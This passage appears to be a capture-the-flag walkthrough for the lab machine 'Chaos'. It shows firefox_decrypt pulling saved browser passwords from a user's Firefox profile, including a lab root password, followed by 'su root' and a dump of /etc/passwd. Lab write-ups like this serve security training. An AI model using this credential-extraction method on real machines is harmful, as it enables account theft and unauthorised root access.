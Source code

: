 Looking the `ayush home`, we can find a `.mozilla` directory.

```bash
$ ls -la
total 40
drwx------ 6 ayush ayush 4096 May 16 19:11 .
drwxr-xr-x 4 root  root  4096 Oct 28  2018 ..
drwxr-xr-x 2 root  root  4096 Oct 28  2018 .app
-rw------- 1 root  root     0 Nov 24  2018 .bash_history
-rw-r--r-- 1 ayush ayush  220 Oct 28  2018 .bash_logout
-rwxr-xr-x 1 root  root    22 Oct 28  2018 .bashrc
drwx------ 3 ayush ayush 4096 May 16 19:11 .gnupg
drwx------ 3 ayush ayush 4096 May 16 19:38 mail
drwx------ 4 ayush ayush 4096 Sep 29  2018 .mozilla
-rw-r--r-- 1 ayush ayush  807 Oct 28  2018 .profile
-rw------- 1 ayush ayush   33 Oct 28  2018 user.txt
```

# Escalation

I'm using `firefox decrypt` to find password stocked on firefox : https://github.com/unode/firefox_decrypt

```bash
$ python3 firefox_decrypt.py ../firefox/

Master Password for profile ../firefox/bzo7sjt1.default: jiujitsu

Website:   https://chaos.htb:10000
Username: 'root'
Password: 'Thiv8wrej~'
```

And... We are root.

```bash
ayush@chaos:~/.mozilla$ su root
Password: Thiv8wrej~
root@chaos:/home/ayush/.mozilla# id
uid=0(root) gid=0(root) groups=0(root)
```

# Passwd file

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
```
